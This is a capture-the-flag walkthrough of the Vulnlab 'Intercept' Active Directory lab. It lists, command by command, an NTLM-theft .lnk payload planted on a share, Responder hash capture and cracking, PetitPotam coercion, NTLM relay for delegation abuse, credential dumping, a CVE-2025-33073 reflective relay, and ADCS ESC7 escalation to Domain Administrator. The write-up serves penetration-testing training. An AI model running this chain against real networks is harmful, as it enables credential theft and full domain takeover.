Intercept is a hard difficulty Windows chain on Vulnlab with two machines, made by Xct. It features multi-host domain exploitation through SMB enumeration, relay attacks, and ADCS.

### Tools
---
- https://nmap.org/
- https://github.com/fortra/impacket
- https://github.com/Pennyw0rth/NetExec/
- https://github.com/CravateRouge/bloodyAD
- https://github.com/ozelis/winrmexec
- https://github.com/SpiderLabs/Responder
- https://github.com/SpecterOps/BloodHound
- https://github.com/openwall/john
- https://github.com/ly4k/Certipy

## Recon
---
```sh
DC01.INTERCEPT.VL / 10.10.184.245
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
636/tcp   open  ldapssl
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server

WS01.INTERCEPT.VL / 10.10.184.246
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```

We begin with basic network enumeration to identify open services.  
The scan results show that **10.10.184.245** appears to be a domain controller due to the presence of LDAP and its name, while **10.10.184.246** seems to be a Workstation.

We start SMB enumeration as `Guest` to see if the account is enabled and identify accessible shares. Immediately we see that the account is enabled and we have READ,WRITE on the `dev` share.
```sh
nxc smb WS01.INTERCEPT.VL -u 'Guest' -p '' --shares
```


## Initial Access
---
With write access available, we can upload a payload to trigger an NTLM authentication when opened. We generate a malicious `.lnk` file:
```sh
uv run --with xlsxwriter --script ntlm_theft.py -g modern -s 10.8.3.84 -f cats
```


We then connect to the writable share using `smbclient`:
```sh
smbclient.py -no-pass Guest@WS01.INTERCEPT.VL
```


Start `responder` to catch the hash once a user opens the folder.
```sh
sudo responder -I tun0
```

And upload the payload:
```sh
put cats.lnk
```


Copy the hash to a file and crack it with john:
```sh
john --wordlist=/opt/SecLists/rockyou.txt kat.hash
```


Now that we have an account we can run bloodhound and see if our account has any interesting permissions.
```sh
nxc ldap DC01.INTERCEPT.VL -u 'Kathryn.Spencer' -p $KAT_PASS --dns-server=10.10.184.245 --bloodhound --collection all
```


Unfortunately for us they don't.



We use `netexec` to query LDAP to gather information on user descriptions, LDAP signing configuration, and the machine account quota:
```sh
nxc ldap DC01.INTERCEPT.VL -u 'Kathryn.Spencer' -p $KAT_PASS -M ldap-checker -M get-desc-users -M maq
```


### Relay
---
As a low-privileged domain user, we can add computer accounts, create DNS records, and exploit the lack of LDAP signing/channel binding. By coercing `WS01$` to authenticate to our WebDAV server, we relay the NTLM authentication to LDAP on the DC. This lets us abuse `WS01$`’s self-write permissions to configure Resource-Based Constrained Delegation, enabling a new machine account we control to impersonate any user on `WS01`.

We can add a DNS record pointing to our attacker machine with `bloodyAD`:
```sh
bloodyAD --host DC01.INTERCEPT.VL -d INTERCEPT.VL -u 'Kathryn.Spencer' -p $KAT_PASS add dnsRecord 'polar' 10.8.3.84
```


Then verify that the record was added.
```sh
bloodyAD --host DC01.INTERCEPT.VL -d INTERCEPT.VL -u 'Kathryn.Spencer' -p $KAT_PASS get dnsDump
```


Before attempting a relay, we verify coercion is possible. We once again start `Responder`:
```sh
sudo responder -I tun0
```

We then use `netexec` to coerce `WS01` via `PetitPotam`, confirming we get an incoming authentication to `Responder`:
```sh
nxc smb WS01.INTERCEPT.VL -u 'Kathryn.Spencer' -p $KAT_PASS -M coerce_plus -o METHOD=petitpotam LISTENER=polar
```



Lets check and see if `WebDAV` is enabled, this can be done with `netexec`:
```sh
nxc smb WS01.INTERCEPT.VL -u 'Kathryn.Spencer' -p $KAT_PASS -M webdav
```


We can request a specific port by passing with the listener, which will cause it to use `WebDAV` instead of `SMB`. You also might need to specify a path or file to get a callback.
```sh
nxc smb WS01.INTERCEPT.VL -u 'Kathryn.Spencer' -p $KAT_PASS -M coerce_plus -o METHOD=petitpotam LISTENER=polar@80/file.txt
```



Next, we add a new machine account that we will use for to receive delegation rights over `WS01`.
```sh
bloodyAD --host DC01.INTERCEPT.VL -d INTERCEPT.VL -u 'Kathryn.Spencer' -p $KAT_PASS add computer tiger 'Password123!'
```


We set up `ntlmrelayx` to grant delegation rights to our new machine account without modifying ACLs or dumping credentials:
```sh
sudo ntlmrelayx.py -smb2support -t ldaps://DC01.intercept.vl --http-port 8080 --delegate-access --no-dump --no-acl --no-da --escalate-user 'tiger$'
```


We coerce `WS01` to authenticate to our HTTP listener:
```sh
nxc smb WS01.INTERCEPT.VL -u 'Kathryn.Spencer' -p $KAT_PASS -M coerce_plus -o METHOD=petitpotam LISTENER=polar@8080/file.txt
```



With the attack successful we can now request a silver ticket for `cifs/WS01.INTERCEPT.VL` using the machine account created earlier.
```sh
getST.py -spn 'cifs/WS01.INTERCEPT.VL' -impersonate administrator 'intercept.vl'/'tiger$':'Password123!'
```


With our ticket exported we can dump credentials from the machine with `secretsdump`.
```sh
secretsdump.py -k -no-pass WS01.INTERCEPT.VL
```


Among the dumped credentials is the password for `Simon.Bowen`.

We can also request a silver ticket for `http/WS01.INTERCEPT.VL` to gain WinRM access as the domain Administrator:
```sh
getST.py -spn 'http/WS01.INTERCEPT.VL' -impersonate administrator 'intercept.vl'/'tiger$':'Password123!'
```


Finally, we use WinRM to log in and collect the first flag from Administrator’s desktop:
```sh
winrmexec.py -k -no-pass Admnistrator@WS01.intercept.vl
```


### Reflective Kerberos Relay (CVE-2025-33073)
---
As `WS01` has SMB signing disabled, we can exploit a recent CVE by creating a specially crafted DNS record:
```sh
bloodyAD --host DC01.INTERCEPT.VL -d INTERCEPT.VL -u 'Kathryn.Spencer' -p $KAT_PASS add dnsRecord 'localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA' 10.8.3.84
```


We start `ntlmrelayx` to target WS01 over SMB:
```sh
sudo ntlmrelayx.py -t "smb://WS01.INTERCEPT.VL" -smb2support
```

Then, we coerce authentication and dump the local administrator hash:
```sh
nxc smb WS01.INTERCEPT.VL -d INTERCEPT.VL -u 'Kathryn.Spencer' -p $KAT_PASS -M coerce_plus -o METHOD=petitpotam LISTENER=localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
```



## ESC7
---
From `BloodHound`, we see that `Simon.Bowen` can add themselves to the `ca-managers` group. We do so with `bloodyAD`:
```sh
bloodyAD --host DC01.INTERCEPT.VL -d INTERCEPT.VL -u 'Simon.Bowen' -p $SIMON_PASS add groupMember ca-managers Simon.Bowen
```



We check for vulnerable certificate templates and verify that it is indeed `ESC7`:

https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc7-dangerous-permissions-on-ca
```sh
certipy find -u 'Simon.Bowen'@intercept.vl -p $SIMON_PASS -vulnerable
```



Following the `ESC7` attack path, we add `Simon.Bowen` as an officer to the CA:
```sh
certipy ca -u 'Simon.Bowen'@intercept.vl -p $SIMON_PASS -ca intercept-DC01-CA -add-officer 'Simon.Bowen'
```


We then enable the `SubCA` template:
```sh
certipy ca -u 'Simon.Bowen'@intercept.vl -p $SIMON_PASS -ca intercept-DC01-CA -enable-template 'SubCA'
```


And request a ticket for the Administrator from the CA. This gets denied, make sure to save the key and remember the request number, which is **6** in our case.
```sh
certipy req -u 'Simon.Bowen'@intercept.vl -p $SIMON_PASS -ca intercept-DC01-CA -template SubCA -upn administrator@intercept.vl -sid S-1-5-21-3031021547-1480128195-3014128932-500
```


Next we use the permissions we have as a CA Manager to issue our request.
```sh
certipy ca -u 'Simon.Bowen'@intercept.vl -p $SIMON_PASS -ca intercept-DC01-CA -issue-request 6
```


We retrieve the issued certificate:
```sh
certipy req -u 'Simon.Bowen'@intercept.vl -p $SIMON_PASS -ca intercept-DC01-CA -retrieve 6
```


Using the certificate for authentication provides us with both Administrator’s NT hash and a Kerberos ticket:
```sh
certipy auth -pfx administrator.pfx -domain intercept.vl -dc-ip 10.10.184.245
```


With the ticket exported, we log in to the DC as Administrator and complete the lab:
```sh
winrmexec.py -k -no-pass Admnistrator@DC01.intercept.vl
```


